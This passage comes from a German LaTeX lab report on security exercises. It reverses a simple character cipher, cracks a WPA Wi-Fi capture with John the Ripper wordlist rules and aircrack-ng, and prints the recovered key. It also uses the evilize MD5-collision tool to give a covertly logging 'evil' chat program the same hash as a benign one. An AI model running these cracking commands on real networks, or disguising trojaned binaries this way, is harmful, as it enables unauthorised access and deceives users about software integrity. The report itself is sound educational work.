0x100000d8d <encryptCharacter+29>:	shr    $0x7,%eax
0x100000d90 <encryptCharacter+32>:	mov    %edx,%ecx
0x100000d92 <encryptCharacter+34>:	sub    %eax,%ecx
0x100000d94 <encryptCharacter+36>:	mov    %ecx,%eax
0x100000d96 <encryptCharacter+38>:	sub    $0x32,%eax
0x100000d99 <encryptCharacter+41>:	leaveq 
0x100000d9a <encryptCharacter+42>:	retq  
\end{lstlisting}
Aus diesem Assembler-Code konnten wir den nachfolgenden C-Code ableiten (Listing \ref{binEncC}).
\begin{lstlisting}[language=C, caption={C-Code der Methode encryptCharacter},label=binEncC,basicstyle=\footnotesize]
unsigned char encryptCharacter(unsigned char c) {
    return c + c - 50 - (c >> 7 << 8) - (c >> 7);
}
\end{lstlisting}
Bei näherer Betrachtung erkannten wir, dass die shift-Operationen eigentlich unnötig sind daher konnte der C-Code weiter reduziert werden (Listing \ref{binEncC2}).
\begin{lstlisting}[language=C, caption={C-Code der Methode encryptCharacter},label=binEncC2,basicstyle=\footnotesize]
unsigned char encryptCharacter(unsigned char c) {
    return c + c - 50;
}
\end{lstlisting}
Nur war es für uns ein leichtes ein C-Programm zu schreiben, welches uns den Inhalt der Datei entschlüsselt (Listing \ref{binSol}).
\begin{lstlisting}[language=C, caption={Entschlüsselungsprogramm in C},label=binSol,basicstyle=\footnotesize]
unsigned char decryptCharacter(unsigned char c) { 
     c += 50; 
    return c - c/2 ; 
}

int main (int argc, const char * argv[]) {
    FILE *file = stdin;
    char line [ 128 ];  
    int i;
    
    while ( fgets ( line, sizeof line, file ) != NULL ) {
        for(i=0; i<sizeof(line); i++) {
            if(line[i] == '\0') break;
            fputc(decryptCharacter((line[i])), stdout);
        }
    }
  
    fputc('\n', stdout);
    return 0;
}
\end{lstlisting}


\paragraph{Lösung}
\begin{itemize}
	\item Wie lautet der Inhalt der Datei?\\
		Der Inhalt der Datei lautet \textit{Schultzstrasse 92}.
\end{itemize}


\subsection{WLAN-Dump}
Uns war ja bereits bekannt, dass das Kennwort für das WLAN mit "klotho" beginnt und aus maximal 10 Zeichen besteht. Aus diesem Grund haben wir uns mit dem Tool John the Ripper\footnote{http://www.openwall.com/john/} eine Wordlist von dem Wort "klotho" generieren lassen. Das Wort, welches wir permutieren möchten (in unserem Fall "klotho") haben wir in die Datei wordlist\_in.txt gespeichert. Für unseren ersten Versuch haben wir uns eine Wordlist generieren lassen, welche die Ziffern 0-9 und alle Buchstaben in Groß- und Kleinschreibung anhängt (in allen Permutationen) mit folgendem Befehl generieren lassen (Listing \ref{wlanJohn}). 
\begin{lstlisting}[language=sh, caption={Befehl zur Gerneriung der Wordlist},label=wlanJohn,basicstyle=\footnotesize]
john --stdout --wordlist=wordlist_in.txt --rules 
     > ./wordlist_out.txt
\end{lstlisting}
Um die Konfiguration zu vereinfachen haben wir zuvor die Standardregelen für die Generierung von Wortlisten in der john.conf-Datei wie folgt abgeändert (Listing \ref{wlanJohnConf}).
\begin{lstlisting}[caption={Regelsatz zur Generierung einer Wortliste mit genau 10 Zeichen},label=wlanJohnConf,basicstyle=\footnotesize]
[List.Rules:Wordlist]
\$[0-9a-zA-Z]\$[0-9a-zA-Z]\$[0-9a-zA-Z]\$[0-9a-zA-Z]
\end{lstlisting}
Über Aircrack\footnote{http://www.aircrack-ng.org/} konnte das WLAN-Dump nach über 2 1/2 Stunden entschlüsselt werden (Listing \ref{wlanAir} und \ref{wlanResult}). Zuvor haben wir die BSSID (02:18:39:BF:D7:67) des WLANs über "aircrack-ng ./Terbium\_1.cap" ermittelt.
\begin{lstlisting}[language=sh, caption={Befehl zum BruteForce Angriff mit Hilfe der generierten WordList},label=wlanAir,basicstyle=\footnotesize]
aircrack-ng -b 02:18:39:BF:D7:67 -w ./wordlist_out.txt 
     ./Terbium_1.cap
\end{lstlisting}
\begin{lstlisting}[caption={AirCrack Resultat},label=wlanResult,basicstyle=\tiny]

      Aircrack-ng 1.1


                   [02:37:00] 26850772 keys tested (2844.09 k/s)


                          KEY FOUND! [ klothosaft ]


      Master Key     : 17 86 B9 77 EE 40 3C 20 04 E9 2E 81 5D 5C 19 99 
                       52 21 AF 9E B8 F0 78 D9 E9 23 AC 16 22 09 02 AF 

      Transient Key  : 19 B2 27 A5 4A B7 A9 47 EB B1 EB 2C 99 DC 13 3D 
                       73 2E 40 EF F5 7D BF 1F 37 0D 5E 9B C3 4B B3 8B 
                       22 57 6E EB 56 0D 5C EF 94 8B 63 84 D4 3C 30 C3 
                       A4 79 34 28 A0 48 46 AE 3E B2 DD D9 8A E6 1A EB 

      EAPOL HMAC     : 54 C3 56 9B A6 A2 0D DA 03 34 78 3C 4A C6 D0 73 
\end{lstlisting}

TODO: BESCHREIBUNG DER ERMITTELUNG DER DATEN, GESPRÄCHSINHALT

\paragraph{Lösung}
\begin{itemize}
	\item Wie hießen die beiden Gesprächsteilnehmer? Was ist der Inhalt des Gesprächs?\\
		Die beiden Gesprächspartner \textit{Thanatos} und \textit{plutos}.
	\item Was für Krimskrams war noch im Dump?\
		Es waren noch \textit{DNS-Abfragen} auf www.wetter.com und apod.nasa.gov zu finden.
	\item Wie lautete das Passwort des Klotho-Netzwerks?\\
		Das Passwort lautet \textit{klothosaft}.
\end{itemize}

\section{Epilog}

\subsection{MD5}

In der letzten Aufgabe ging es darum sich mit dem Thema der MD5 Kollision zu beschäftigen. Bei der Md5 Kollision geht es darum, dass zwei unterschiedliche \textit{Nachrichten} den selben 128-Bit-Hashwert aufweisen. Hierzu wird versucht durch analytische Verfahren die Differenz zwischen zwei verschiedenen 512-Bit Blöcken zu verringern und sie austauschbar zu machen. der Artikel von 
Xiaoyun Wang und Hongbo Yu beschreibt einen Algorithmus zum finden von zweit unterschiedlichen 1024-Bit Sequenzen, die einen gleichen MD5 Hash aufweisen.\\

Zudem sollte ein einfaches Chatprogramm entwickelt werden, welches zum in einer die Eingabe des Ausrufers in einer Schleife einliest und aus der Standardausgabe wieder ausgibt. Zusatzich sollte eine Version entwickelt werden, die zusätzlich zu der Standardfunktionalität die Eingabe in einer Textdatei aufzeichnet. Der entsprechende Source-Code ist in Listing \ref{chatSourceCode} zu sehen. \\

\begin{lstlisting}[captionpos=b, caption={Source-Code Chatprogramm},
	language=C, label=chatSourceCode, basicstyle=\ttfamily, numberstyle=\tiny, numbers=left, keywordstyle=\color{blue}, stringstyle=\color{red}, commentstyle=\color{green}, numbersep=5pt, basicstyle=\tiny ,frame=single,, showspaces=false, showstringspaces=false]

#include <stdio.h>
#include <string.h>

int main_good (int argc, const char * argv[]) {

    char string[512];
    char quitInput[] = "quit";
   
   puts("Welcome to ChatMe 0.1.2!");
    
    while (scanf("%s", &string)) {
    
    	if(strcmp(quitInput, string) ==0 ){
	puts("I'll be back :D");
         break;
    }
        printf("%s\n", string);
        
    }
    
    return 0;
}

int main_evil (int argc, const char * argv[]) {
    
    FILE *outfile;
    char string[512];
    char quitInput[] = "quit";
    char *outfilename = "settings.txt";
    outfile = fopen(outfilename, "w");
    
    puts("Welcome to ChatMe 0.1.2!");
    
    while (scanf("%s", &string)) {
        
        if(strcmp(quitInput, string) ==0 ){
            
            puts("I'll be back :D");
            break;
        }
        fprintf(outfile, "%s\n",string);
        printf("%s\n", string);
        
    }
    return 0;
}
\end{lstlisting}

Im weiteren sollte über MD5 Kollison erreicht werden, dass die Binaries der beiden Programme trotz unterschiedlicher Funktionsweise, einen gleichen MD5 Hash aufweisen. 
Als Hilfe diente uns Anleitung und \textit{evilize} Library von Peter Selinger \footnote{http://www.mscs.dal.ca/~selinger/md5collision/}. Im ersten Schritt wurde der zuvor geschriebene Source-Code in eine Datei mit zwei Main-Methoden  \textit{main\_good} und  \textit{main\_evil} gepackt. Nun wurde das Programm mit Hilfe des Befehls, der in (Listing \ref{compile}) zu sehen ist, gegen die durch Library bereitgestellte Datei \textit{goodevil.o} gelinket und kompiliert.

\begin{lstlisting}[language=sh,,label=compile, caption={Kompilieren und linken gegen \textit{goodevil.o} }, basicstyle=\footnotesize]

gcc chat.c goodevil.o -o chat

\end{lstlisting}

Nun erfolgte die Berechnung des Initializierungsvektors. Im Listing \ref{initVec} ist der Befehl und der berechnete Vektor zu sehen

\begin{lstlisting}[language=sh,,label=initVec, caption={Berechnung des Initializierungsvektors }, basicstyle=\footnotesize]

evilize chat -i
Initial vector: 0x3fc6a9cd 0x6d00050f 0x0bc2dc1f 0xc4924c32

\end{lstlisting}

Im nächsten schritt erfolgte die Berechnung der MD5 Kollision, deren Ergebnis in eine Datei um geleitet wurde. Im Listing \ref{md5col} ist der verwendete Befehl sowie die errechneten Werte zu sehen.

\begin{lstlisting}[language=sh,,label=md5col, caption={Berechnung der MD5 Kollision}, basicstyle=\footnotesize]

md5coll 0x3fc6a9cd 0x6d00050f 0x0bc2dc1f 0xc4924c32 > init.txt

Random seed: 1383005260
unsigned int m0[32] = {
0x22c24f2b, 0x2d6c8b5e, 0x9e0addba, 0xc7be6d27, 
0x7a983639, 0x11c90cae, 0x062b935d, 0xf9548b30, 
0x0634ad51, 0xc313dc03, 0x813eb657, 0x12c95d02, 
0xb4aa5b05, 0xb1aa6423, 0xfaf50a10, 0xaa4c420a, 
0x12ff3ca9, 0x7baf60bd, 0x9b2f76bd, 0x267bc731, 
0x47e6bada, 0x4c87b5c4, 0x17b4fd36, 0xbf0c2ad2, 
0xc036b801, 0x0b31baa4, 0x6b2165d6, 0x3d81bcbf, 
0xfc39e8f6, 0x6f7010ae, 0x15495fad, 0xb20e2726, 
};

unsigned int m1[32] = {
0x22c24f2b, 0x2d6c8b5e, 0x9e0addba, 0xc7be6d27, 
0xfa983639, 0x11c90cae, 0x062b935d, 0xf9548b30, 
0x0634ad51, 0xc313dc03, 0x813eb657, 0x12c9dd02, 
0xb4aa5b05, 0xb1aa6423, 0x7af50a10, 0xaa4c420a, 
0x12ff3ca9, 0x7baf60bd, 0x9b2f76bd, 0x267bc731, 
0xc7e6bada, 0x4c87b5c4, 0x17b4fd36, 0xbf0c2ad2, 
0xc036b801, 0x0b31baa4, 0x6b2165d6, 0x3d813cbf, 
0xfc39e8f6, 0x6f7010ae, 0x95495fad, 0xb20e2726, 

};\end{lstlisting}

Mit dem Ergebnis aus dem vorherigen Schritt konnte nun die zwei Programme \textit{good} und \textit{evil} erstellt werden. Hierzu wurde der in Listing \ref{make} zu sehende Befehl verwendet.

\begin{lstlisting}[language=sh,,label=make, caption={Erstellen des Programmpaares \textit{good} und \textit{evil}}, basicstyle=\footnotesize]

evilize chat -c init.txt -g good -e evil
Writing 'good' file good.
Writing 'evil' file evil.

\end{lstlisting}

Hierbei stellt das  Programm \textit{good} das harmlose Chat-Programm und \textit{evil} das um den automatischen Mitschnitt in eine Textdatei erweiterte Programm dar. Beide erzeugten Programme funktionieren wie erwartet, weisen jedoch bei einem MD5 Check beide den gleichen MD5 Hash  \textit{de05a79e5b45e44d8ea4623e7da060a8} auf.
\end{document}